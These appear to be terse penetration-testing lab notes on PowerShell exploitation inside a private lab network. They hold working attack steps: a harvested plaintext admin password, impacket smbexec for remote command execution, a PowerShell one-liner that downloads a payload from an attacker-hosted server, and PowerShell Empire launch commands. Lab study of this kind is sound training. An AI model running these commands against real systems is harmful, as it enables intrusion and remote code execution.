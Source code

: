 ## Lab 1 - Leveraging PowerShell During Exploitation

organization - 172.16.80.0/24
172.16.80.1
172.16.80.100
tester ip = 175.12.80.0/24

#
my ip 175.12.80.10
#
172.16.80.1
172.16.80.100
	135
	139
	445
	4983

> we can access in browser or by nc

```powershell

172.16.80.100:4983 or nc 172.16.80.100 4983
@echo off  net use "\\10.100.11.150\C$" /user:local_admin P@ssw0rd123  if exist "\\10.100.11.150\C$\Program_Files\MSBuild\ErrorLog.txt" (      echo "Copying errors..."      copy "\\10.100.11.150\C$\Program_Files\MSBuild\ErrorLog.txt" C:\Users\local_admin\Logs\Host1\      del "\\10.100.11.150\C$\Program_Files\MSBuild\ErrorLog.txt" ) else (      echo "No errors!" )  net use "\\10.100.11.150\C$" /delete

```

- we discovered a new ip and credentials

```
10.100.11.150
local_admin:P@ssw0rd123
```

> now that we have credentials, lets smbexec into it

```powershell
john㉿kali)-[/opt/impacket/examples]
└─$ sudo python3 smbexec.py 'local_admin:P@ssw0rd123'@172.16.80.100 

	ipconfig
	echo %userdomain%

```

```powershell
powershell -c iex (New-Object Net.WebClient).DownloadFile('http://10.100.11.101:8000/payload2.exe', 'C:\Windows\Temp\payload.exe')
```

- after some time configuring Empire

```powershell
sudo powershell-empire server
sudo powershell-empire client
```
